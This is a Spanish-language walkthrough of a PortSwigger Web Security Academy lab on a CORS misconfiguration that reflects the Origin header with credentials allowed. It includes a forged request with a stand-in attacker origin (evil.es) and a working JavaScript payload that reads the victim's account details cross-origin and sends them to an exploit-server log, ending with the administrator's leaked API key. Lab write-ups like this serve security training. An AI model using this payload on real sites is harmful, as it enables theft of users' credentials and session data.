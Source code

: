 ```yaml
---
icon: arrow-progress
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# PortSwigger - CORS vulnerability with basic origin reflection

Primero veremos una pagina web en la que tendremos que loguearnos con las credenciales que nos proporcionan:

```
User: wiener
Pass: peter
```

Una vez dentro veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos al `HTTP History` de `BurpSuite` veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En esta parte de aqui, si nos vamos a la respuesta del servidor, veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que está esta linea:

```
Access-Control-Allow-Credentials: true
```

Por lo que ya nos esta dando una pista de que se puede inyectar un `Origin:` en la cabecera de la peticion, vamos a probarlo haciendo lo siguiente, pero antes lo enviaremos al `Repeater` para hacer nuestras pruebas con `Ctrl+R`:

```
GET /accountDetails HTTP/2
Host: 0ac200ae03914ae783adeb10005b0068.web-security-academy.net
Cookie: session=cqk6PNNi2yuPlScrp8epStylUJ6NSM5Q
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/my-account?id=wiener
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=4
Te: trailers
Origin: http://evil.es

```

Tiene que quedar algo asi como se muestra en lo anterior, ahora si lo enviamos y vemos la respuesta del servidor, veremos algo asi:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que esta funcionando, por que estamos viendo lo siguiente:

```
Access-Control-Allow-Origin: http://evil.es
Access-Control-Allow-Credentials: true
```

Por lo que esta confiando en el link que le estamos inyectando en el `Origin`, ahora vamos a darle al boton llamado `Go to exploit server` para emular nuestro servidor atacante y realizar el `exploit` contra el usuario victima que este logueado, veremos este apartado:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En la parte de `Body` tendremos que meter el `payload` para poder capturar la informacion del usuario y obtener el `TOKEN` del mismo, vamos a poner lo siguiente:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','<PETICION_VULNERABLE>',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora vamos a obtener la `peticion` vulnerable donde llevamos al `repeater` antes con `BurpSuite` copiandola, para asi insertarla ahi en ese `payload` y poder capturar el `TOKEN` del usuario que este logueado.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Y veremos algo asi:

```
URL = https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails
```

Esto lo meteremos en nuestro `payload` y tendremos que tener algo asi:

```js
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ac200ae03914ae783adeb10005b0068.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

Ahora para probar el `exploit` le daremos a `Store` y despues `Deliver exploit to victim` y nos vamos a los `logs` dandole a `Access log`, con esto veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (304).png" alt=""><figcaption></figcaption></figure>

Veremos que hay un `/log?key=` que tiene el nombre de `administrador` por lo que vemos ha funcionado, vamos a obtener el valor entero que sera este:

```
/log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk%22,%20%20%22sessions%22:%20[%20%20%20%20%22jyoMkcVXMOZ22RmElbHuQBqps91se3Rf%22%20%20]}
```

Ahora lo decodificaremos y veremos lo siguiente:

```
{  "username": "administrator",  "email": "",  "apikey": "cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk",  "sessions": [    "jyoMkcVXMOZ22RmElbHuQBqps91se3Rf"  ]}
```

Vemos que el `APIKey` del usuario `administrador` es:

```
cCPZoE0vdxZSEXbJzwB8XfmqOKrVU6mk
```

Ahora para validarlo le daremos a `Submit Solution` e introducimos ese `APIKey` con esto ya habremos terminado el `LAB`.

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
